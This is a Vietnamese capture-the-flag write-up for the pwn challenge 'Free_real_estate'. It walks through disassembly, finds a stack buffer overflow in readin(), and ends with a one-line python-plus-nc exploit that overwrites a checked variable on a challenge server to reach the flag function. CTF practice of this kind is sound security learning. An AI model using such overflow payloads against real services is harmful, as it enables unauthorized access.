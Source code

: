 **Free_real_estate**
---
Binary Exploitation

Description:
---
> Nothing

Solution:
---
Như cái tên đề bài thì đây là bài free điểm, nhưng mà chả ai làm :joy: Chạy thử xem nào :point_down:

![](/Vong_loai_PTIT/Pwnable/Free_real_estate/1.PNG)

Xem ra có 1 chỗ nhập, decompile ra xem main nào:

```asm
   0x08048671 <+10>:	push   ebp
   0x08048672 <+11>:	mov    ebp,esp
   0x08048674 <+13>:	push   ecx
   0x08048675 <+14>:	sub    esp,0x24
   0x08048678 <+17>:	call   0x80485bb <init>
   0x0804867d <+22>:	mov    DWORD PTR [ebp-0xc],0x4d2
   0x08048684 <+29>:	sub    esp,0xc
   0x08048687 <+32>:	push   0x8048792
   0x0804868c <+37>:	call   0x8048450 <puts@plt>
   0x08048691 <+42>:	add    esp,0x10
   0x08048694 <+45>:	sub    esp,0x8
   0x08048697 <+48>:	push   0x32
   0x08048699 <+50>:	lea    eax,[ebp-0x24]; <--- Buffer nhập vào nằm ở [ebp-0x24]
   0x0804869c <+53>:	push   eax
   0x0804869d <+54>:	call   0x8048628 <readin>; <--- Hàm đọc đây rồi, nhìn lên <+48> thì hàm này cho nhập 0x32 bytes
   0x080486a2 <+59>:	add    esp,0x10
   0x080486a5 <+62>:	sub    esp,0x8
   0x080486a8 <+65>:	lea    eax,[ebp-0x24]
   0x080486ab <+68>:	push   eax
   0x080486ac <+69>:	push   0x80487a2
   0x080486b1 <+74>:	call   0x8048430 <printf@plt>
   0x080486b6 <+79>:	add    esp,0x10
   0x080486b9 <+82>:	cmp    DWORD PTR [ebp-0xc],0x1b39; <--- DWORD PTR [ebp-0xc] == 0x1b39 ? secret() : Bye! 
   0x080486c0 <+89>:	jne    0x80486c9 <main+98>
   0x080486c2 <+91>:	call   0x804860f <secret>; <--- secret() là hàm in flag ra nhé
   0x080486c7 <+96>:	jmp    0x80486d9 <main+114>
   0x080486c9 <+98>:	sub    esp,0xc
   0x080486cc <+101>:	push   0x80487b0
   0x080486d1 <+106>:	call   0x8048430 <printf@plt>
   0x080486d6 <+111>:	add    esp,0x10
   0x080486d9 <+114>:	mov    eax,0x0
   0x080486de <+119>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080486e1 <+122>:	leave  
   0x080486e2 <+123>:	lea    esp,[ecx-0x4]
   0x080486e5 <+126>:	ret
```
Tóm lại là từ [ebp-0x24] đến [ebp-0xc] có 0x18 bytes. Mà readin() lại cho nhập vào 0x32 bytes. Ăn thôi :yum:

> Gõ terminal đập phát chết luôn, khỏi cần code:
```bash
python -c 'print "A"*0x18 + "\x39\x1b\x00\x00"' | nc 3.91.78.13 10004
```
Flag thiếu chữ P mọi người tự thêm vào nhé:

![](/Vong_loai_PTIT/Pwnable/Free_real_estate/2.PNG)

